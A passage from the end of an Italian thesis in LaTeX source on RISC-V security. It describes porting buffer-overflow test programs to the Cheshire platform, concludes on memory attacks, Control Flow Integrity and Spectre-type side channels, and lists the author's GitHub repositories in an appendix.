Con questo tipo di attacchi side channel, se pur molto complessi e non sempre utilizzabili, è a volte possibile catturare informazioni che altrimenti non sarebbe possibile registrare. L'attaccante usando un approccio side-channel unito a metodologie bruteforce, può venire a conoscenza di file nascosti nel sistema o costruire attacchi specifici alla memoria.
\section*{Porting degli attacchi su Cheshire}
\addcontentsline{toc}{section}{Porting degli attacchi su Cheshire}
Utilizzando la piattaforma Cheshire, è stato possibile far girare dei programmi su core RISC-V basato su CVA6. Per fare questo è stato necessario tradurre i programmi C in programmi ``più semplici" senza far uso di funzioni di libreria vulnerabili, come la \textit{strcpy()} che fa parte della libreria \textit{string.h} ed implementando il codice manualmente.\\
La stessa funzione \textit{printf()} non essendo disponibile, è stata emulata tramite la scrittura su interfaccia \textit{UART}, leggibile tramite l'emulatore.\\
\newline
Sono state inoltre disattivate tutte le ottimizzazioni nel programma compilato perché il compilatore applica politiche di ``const-propagation", come si vede in figura \ref{ref:constprop} e ogni elemento statico o costante viene ottimizzato e scritto direttamente ``inline" nel codice. In aggiunta, il compilatore genera solo codice linkato staticamente, evitando tutti gli shared object ed è quindi impossibile generare codice dipendente da \textit{libc} esterne, rendendo molto più difficile attacchi come return oriented programming.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    \includegraphics[width=1\linewidth]{images/strcpy-constprop.png}
    \caption{Const-propagation \textit{strcpy()}}
    \label{ref:constprop}
\end{figure}
\vspace{1cm}
\FloatBarrier
In seguito a questo porting di programmi vulnerabili a buffer overflow su Cheshire, sarà possibile agganciare dei controlli di Control Flow Integrity disponibili per questo tipo di piattaforme, sia su sistemi Linux emulati sia su piattaforme RISC-V su FPGA.
\newpage
\chapter*{Capitolo 5}
\addcontentsline{toc}{chapter}{Capitolo 5}

\section*{Conclusioni}
\addcontentsline{toc}{section}{Conclusioni}
Il progetto di sviluppare una ISA open source basata su RISC è nato nel 2010 all'Università di Berkeley e da quel momento l'utilizzo di RISC-V è diventato sempre maggiore, tanto da essere supportato sempre da più elementi hardware e sistemi operativi, diventando nel 2024 una valida scelta su cui basare un sistema di calcolo a basso costo. Recentemente nel kernel Linux è stato anche introdotto il supporto all'``hot-swapping" \cite{hwupgrade} della memoria per RISC-V, accorciando le distanze di questa architettura con la famiglia x86\_64.\\
Negli ultimi anni produttori come SiFive e Milk-V hanno basato sistemi cluster multiprocessore (fino a 64 core) e schede a basso costo su sistemi RISC-V, utilizzate grazie al porting di Ubuntu (ed altre distribuzioni) compilato per questa architettura, rendendo così RISC-V sempre più accessibile al pubblico.\\
È importante quindi grazie alla diffuzione sempre maggiore di questa ISA analizzare, testare e capire i problemi di sicurezza e i tipi di attacco che potrebbero interessarla.\\
\newline
Gli attacchi alla memoria sono sempre stati presenti nella storia della programmazione C e dei sistemi operativi, non per implementazioni specifiche legate all'hardware, ma per errori da parte dei programmatori o vulnerabilità che interessano direttamente la memoria del programma in esecuzione. Questi attacchi sono mitigabili tramite software, utilizzando soluzioni basate sul compilatore, implementazioni che che si basano sistema operativo, o tramite hardware costruendo dei meccanismi di protezione della memoria. Sono disponibili anche dei meccanismi esterni al sistema che implementano tecniche di Control Flow Integrity e analizzano il flusso d'esecuzione del programma, i salti che deve fare e le istruzioni che deve eseguire, segnalando al programma quando viene compiuta una operazione non prevista.\\
Per avere sempre maggiore controllo su eventuali vulerabilità lato codice ovviamente la soluzione è quella di scrivere codice sicuro, usando funzioni non deprecate e librerie aggiornate.\\
\newline
Gli attacchi side-channel sono causati principalmente dalle ottimizzazioni che gli ingegneri studiano per incrementare le performance della CPU e sono presenti in molte architetture e tipi di processore. Un caso noto è la vulnerabilità ``Spectre" che affligge CPU AMD da molti anni e ha causato problemi enormi nell'era del Cloud Computing, dove la stessa CPU era utilizzata da più utenti e l'exploit Spectre permetteva di leggere dati privati dei processi. Questo attacco in caso di ottimizzazioni come Execution Out of Order e Speculative Execution di cui RISC-V si dota rende vulnerabile anche questa nuova architettura che dovrà implementare mitigazioni lato sistema operativo per proteggersi.\\
\newline
Per concludere, è possibile dire che nonostante l'ISA sia open source e quindi implementabile senza costi aggiuntivi ed aperta a tutti, è sicuramente importante porre attenzione alla sicurezza di processori basati su questa architettura che possono avere implementazioni proprietarie su dispositivi ``High end" come HPC ma anche in dispositivi constraint e sistemi embedded adatti al controllo numerico. 
\newpage
\section*{Appendice 1: Software sviluppato}
\addcontentsline{toc}{section}{Appendice 1: Software sviluppato}
Tutti i test effettuati, i compilati, gli screenshot e le demo sono disponibili online nelle repository GitHub.
\subsection*{Repository: RISCV-Attacks}
\addcontentsline{toc}{subsection}{Repository: RISCV-Attacks}
Questa repository è strutturata nel modo seguente
\begin{itemize}
\item folder \textbf{LLM}: contiene i test fatti con i LLM Gemma e GPT3
\item folder \textbf{PATH}: contiene dei test fatti per gli attacchi path injection
\item folder \textbf{bin}: contiene tutti gli artefatti e compilati prodotti per i vari tipi di attacco. Ogni attacco ha una sua sottocartella dedicata
\item folder \textbf{doc}: contiene la documentazione e le risorse relative ai processori attaccati
\item folder \textbf{img}: contiene gli screenshot e i video demo degli attacchi
\item folder \textbf{nginx}: contengono le prove di attacco fatte al binario NGINX
\end{itemize}
Fonte: \href{https://github.com/BlessedRebuS/RISCV-Attacks}{\textbf{https://github.com/BlessedRebuS/RISCV-Attacks}}
\subsection*{Repository: RISCV-ROP-Testbed}
\addcontentsline{toc}{subsection}{Repository: RISCV-ROP-Testbed}
Questa repository è strutturata nel modo seguente
\begin{itemize}
\item folder \textbf{buffer\_overflow}: contiene i sorgenti e gli eseguibili degli attacchi buffer overflow
\item folder \textbf{code\_reuse\_attack}: contiene i sorgenti e gli eseguibili degli attacchi teorici di return oriented programming
\item folder \textbf{img}: contiene gli screenshot degli exploit eseguiti
\end{itemize}
Fonte: \href{https://github.com/BlessedRebuS/RISCV-ROP-Testbed}{\textbf{https://github.com/BlessedRebuS/RISCV-ROP-Testbed}}
\newpage
\section*{Ringraziamenti}
\addcontentsline{toc}{section}{Ringraziamenti}
Ringrazio i miei relatori, correlatori e colleghi per avermi dato l’opportunità di lavorare a questo tema di ricerca.\\
\newline
Vorrei inoltre ringraziare e dedicare questa tesi alla mia famiglia e alle mie persone speciali.
\newpage
\myemptypage
\printbibliography
\listoffigures

\newpage
\end{document}
